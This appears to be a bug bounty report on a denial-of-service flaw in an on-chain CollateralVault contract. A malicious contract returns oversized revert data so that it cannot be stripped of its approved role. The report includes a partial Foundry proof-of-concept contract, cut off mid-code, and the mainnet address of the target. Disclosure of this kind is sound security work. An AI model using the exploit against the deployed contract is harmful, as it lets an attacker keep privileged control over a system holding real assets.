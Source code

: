 @> } catch (bytes memory) { @> // contractAddress does not implement IERC165. \`isCollateralPool\` should be false in this case @> }

```
        emit CollateralizableContractApprovalUpdated(_updates[i].isApproved, contractAddress, isCollateralPool);
    }
```

} \`\`\`

Notice that in the \`catch\` clause of the call to \`supportsInterface\`, the \`bytes memory\` variable remains. Although the variable is unnamed, this implementation specifically instructs the Solidity compiler to load the entirety of the returned data into memory, even though it is unused.

Consequently, a malicious contract can force the call to \`upsertCollateralizableContractApprovals\` to \`revert\` by specifying an execessively large amount of data to return _from within the parent call context_.

This renders the \`upsertCollateralizableContractApprovals\` function impotent, enabling the \`collateralizableContract\` to retain it's role.

## Impact Details

The valuable \`collateralizableContract\` role can be held indefnitely. In the context of a batch upgrade, a malicious \`CollateralizableContract\` may also prevent competing \`collateralizableContract\`s from being approved.

As the \`CollateralVault\` itself is immutable, the role will be held indefinitely.

## References

https://etherscan.io/address/0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f?utm\_source=immunefi#code

## Proof of Concept

## Proof of Concept

In Foundry, run the following test using:

\`\`\`shell forge test -vv \`\`\`

\> Note, you'll need to define a mainnet \`ETH\_RPC\_URL\`.

\`\`\`solidity // SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

/// @notice A contract which DOSs the \`CollateralVault\` if /// @notice it attempts to no longer mark them as a /// @notice \`CollateralizableContract\`. contract ImmortalCollateralizable { address internal immutable \_COLLATERAL\_VAULT;

```
constructor(address collateralVault) {
    _COLLATERAL_VAULT &#x3D; collateralVault;
}

function supportsInterface(bytes4) external view returns (bool) {
    // Check to see if the sender is the &#x60;CollateralVault&#x60;.
    if (msg.sender &#x3D;&#x3D; _COLLATERAL_VAULT) {
        bool success;
        bytes memory data;
        (success, data) &#x3D; _COLLATERAL_VAULT.staticcall(
            abi.encodeWithSignature(
                &quot;collateralizableContracts(address)&quot;,
                address(this)
            )
        );
```